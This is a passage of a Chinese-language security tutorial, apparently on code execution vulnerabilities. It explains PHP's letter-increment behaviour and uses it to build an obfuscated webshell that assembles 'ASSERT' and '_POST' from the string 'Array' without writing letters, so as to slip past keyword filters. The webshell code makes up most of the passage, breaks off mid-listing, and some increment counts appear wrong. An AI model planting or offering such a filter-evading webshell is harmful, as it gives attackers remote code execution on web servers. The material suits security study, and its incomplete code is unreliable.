 ```````
![image-20240228170540673](09.%E5%91%BD%E4%BB%A4%E5%92%8C%E4%BB%A3%E7%A0%81%E6%89%A7%E8%A1%8C%E6%BC%8F%E6%B4%9E/image-20240228170540673.png)
webshell3
在处理字符变量的算数运算时，PHP沿袭了Perl 的习惯，而非C的。例如，在Perl中`$a='Z'; a++;` 将把 a变成AA，注意字符变量只能递增，不能递减，并且只支持纯字母(a-z和A-Z) 。递增/递减其他字符变量则无效，原字符串没有变化。

```php
<?php
$a = 'a';
$a ++;
var_dump($a);
$a --;
var_dump($a);
?>
```
![image-20240228170546178](09.%E5%91%BD%E4%BB%A4%E5%92%8C%E4%BB%A3%E7%A0%81%E6%89%A7%E8%A1%8C%E6%BC%8F%E6%B4%9E/image-20240228170546178.png)
而在 C 中，`a='Z';a++;`将把a变成中`[` （`Z`的 ASCII 值是 90，`[`的 ASCII 值是 91）。
![image-20240228170551583](09.%E5%91%BD%E4%BB%A4%E5%92%8C%E4%BB%A3%E7%A0%81%E6%89%A7%E8%A1%8C%E6%BC%8F%E6%B4%9E/image-20240228170551583.png)
那么如何拿到字符串'a'的变量呢？
数组（Array）的第一个字母就是大写A，而且第4个字母是小写a。也就是说，我们可以同时拿到小写和大写A，等于我们就可以拿到a-z和A-Z的所有字母。
在PHP中，如果强制连接数组和字符串的话，数组将被转换成字符串，其值为Array：再取这个字符串的第一个字母，就可以获得'A'了。
![image-20240228170557067](09.%E5%91%BD%E4%BB%A4%E5%92%8C%E4%BB%A3%E7%A0%81%E6%89%A7%E8%A1%8C%E6%BC%8F%E6%B4%9E/image-20240228170557067.png)
基于此原理，我们可以构造如下的webshell

```php
<?php
$_=[];
$_=@"$_"; // $_='Array';
$_=@$_['!'=='@']; // $_=$_[0];
$___=$_; // A
$__=$_;
$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;
$___.=$__; // S
$___.=$__; // S
$__=$_;
$__++;$__++;$__++;$__++; // E 
$___.=$__;
$__=$_;
$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++; // R
$___.=$__;
$__=$_;
$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++; // T
$___.=$__;

$____='_';
$__=$_;
$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++; // P
$____.=$__;
$__=$_;
$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++; // O
$____.=$__;
$__=$_;
$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++; // S
$____.=$__;
$__=$_;
```````
